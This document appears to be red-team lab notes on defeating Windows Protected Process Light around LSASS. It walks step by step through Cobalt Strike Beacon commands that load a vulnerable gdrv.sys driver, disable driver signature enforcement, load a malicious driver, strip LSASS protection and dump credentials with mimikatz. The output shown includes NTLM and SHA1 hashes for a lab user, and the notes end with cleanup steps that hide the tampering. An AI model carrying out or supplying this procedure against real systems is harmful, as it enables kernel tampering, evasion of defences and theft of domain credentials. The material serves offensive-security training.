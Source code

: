 
Protected Process (PP) and Protected Process Light (PPL) is a relatively new mechanism on Windows which was first designed as protection for DRM (Digital Rights Management).  The idea was to allow media players to read Blu-Ray discs, but not copy the content.  It worked fundamentally by limiting the access you could obtain to a protected process, such as PROCESS_QUERY_LIMITED_INFORMATION or PROCESS_TERMINATE, but not PROCESS_VM_READ or anything else that would allow you to circumvent the DRM requirements.

Since then, the technology has been expanded to help protect other Windows processes - notably LSASS and AV engines.  For example, we get access denied when trying to obtain a handle with enough privileges to read LSASS memory.

# Bypassing DSE

* Can bypass the LSASS protected handle by disabling DSE (driver signature enforcement) and creating an arbitrary kernel memory write primitive. This can be done by loading a known, vulnerable driver, using it to disable DSE, loading a malicious driver, and then re-enabling DSE.

```
beacon> upload C:\Tools\cobaltstrike\gdrv\gdrv.sys
beacon> run sc create gdrv type= kernel binPath= C:\Windows\System32\drivers\gdrv.sys
beacon> run sc start gdrv

SERVICE_NAME: gdrv 
        TYPE               : 1  KERNEL_DRIVER  
        STATE              : 4  RUNNING 
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
```

```
beacon> disable_dse
[+] DSE disabled
```

* We can then load our malicious driver.

```
beacon> run sc start redoct

SERVICE_NAME: redoct 
        TYPE               : 1  KERNEL_DRIVER
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
```

* We'll need to make sure that we re-enable DSE as soon as possible as to prevent a BSOD.

```
beacon> enable_dse
[+] DSE enabled
```

* We could also then unload the `gdrv` driver and remove it from the system.

```
beacon> run sc stop gdrv
beacon> run sc delete gdrv
beacon> rm gdrv.sys
```

# Dumping LSASS


* We can simply use `unprotect_process 652` to remove write protection from the LSASS. This has a `bof` and `aggressor script` that will call the correct IOCTL from the RedOctober driver.

```
beacon> ppenum 652
[*] Running PPEnum against PID 652

Type   : PsProtectedTypeProtectedLight
Signer : PsProtectedSignerLsa

beacon> unprotect_process 652
[+] host called home, sent: 2498 bytes

beacon> ppenum 652
[*] Running PPEnum against PID 652

Type   : PsProtectedTypeNone
Signer : PsProtectedSignerNone
```

* We can then simply call `mimikatz` and execute what is needed.

```
beacon> mimikatz !sekurlsa::logonpasswords

Authentication Id : 0 ; 1415530 (00000000:0015996a)
Session           : RemoteInteractive from 2
User Name         : bturner
Domain            : ACME
Logon Server      : DC
Logon Time        : 5/16/2023 3:05:35 PM
SID               : S-1-5-21-2006696020-36449419-3390662055-1106
	msv :	
	 [00000003] Primary
	 * Username : bturner
	 * Domain   : ACME
	 * NTLM     : 1804bfd7e057f1b37d5bba093c594d1e
	 * SHA1     : da4585eb8811a5a291ff1c61603b42cc59996079
	 * DPAPI    : 12944985316c14d13757dbab27ab0f24
```